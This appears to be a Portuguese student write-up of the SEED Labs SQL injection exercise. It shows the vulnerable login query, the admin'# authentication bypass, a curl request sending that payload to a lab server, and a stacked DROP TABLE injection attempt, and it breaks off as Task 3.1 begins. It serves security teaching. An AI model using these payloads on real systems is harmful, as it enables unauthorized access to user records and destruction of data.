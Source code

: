     SELECT * FROM `credential` WHERE Name = "Alice";

Assim obtivemos os dados da Alice:


### Task 2

#### Task 2.1

Ao examinar o site fornecido pelo Docker e o arquivo unsafe_home.php, notamos que a consulta apresenta uma vulnerabilidade. Isso ocorre porque o servidor gera dinamicamente o comando SQL usando strings não sanitizadas provenientes da entrada do usuário. Essa prática torna a aplicação suscetível a ataques de injeção de SQL:

    SELECT id, name, eid, salary, birth, ssn, phoneNumber, address, email, nickname, Password FROM credential WHERE name='$input_uname' and Password='$hashed_pwd'

Aproveitando o fato de que o campo de senha é criptografado, é possível explorar a funcionalidade de pesquisa manipulando apenas o campo de nome de usuário. Ao inserir 'admin'# como entrada, garantimos acesso privilegiado, pois a verificação da chave de acesso se torna irrelevante ao ser comentada. Com isso, o código executado no lado do servidor é modificado da seguinte maneira:

    SELECT id, name, eid, salary, birth, ssn, address, email, nickname, Password FROM credential WHERE name='admin'# and Password=’$hashed_pwd’

Portanto, conforme planejado, conseguimos efetuar login com a conta de administrador, abrindo a possibilidade de obter todos os dados dos usuários no aplicativo:


#### Task 2.2

Nesta tarefa, executei um ataque por meio de uma solicitação GET. Para obter todo o código HTML da página, incluindo todas as informações dos usuários, utilizei o seguinte comando malicioso:

    curl "http://www.seed-server.com/unsafe_home.php?username=admin%27%23&Password="

Como esperado o resultado foi o seguinte:


#### Task 2.3

Através do SQL, é possível utilizar ```;``` para inserir novos comandos. Ao empregar essa funcionalidade, busquei causar um efeito colateral no servidor. O comando utilizado foi o seguinte:

    admin'; DROP TABLE IF EXISTS admin; #

No entanto, esta operação não foi executada devido a um erro na base de dados. A extensão MySQL utilizada pelo PHP no servidor possui uma salvaguarda que impede a execução de várias consultas simultâneas, o que resultou na impossibilidade de concluir o ataque:


### Task 3

#### Task 3.1

Após efetuar o login com uma conta do sistema (username: Alice e password: seedalice), obtivemos acesso a uma página destinada à edição de informações pessoais. Essa página é gerenciada pelo arquivo fornecido ```unsafe_edit_backend.php```, que contém uma consulta construída dinamicamente com strings não sanitizadas provenientes da entrada do usuário. Nosso ataque envolve a manipulação do número de telefone. Utilizando a mesma técnica dos tópicos anteriores, conseguimos criar o seguinte código capaz de manipular o salário do usuário:
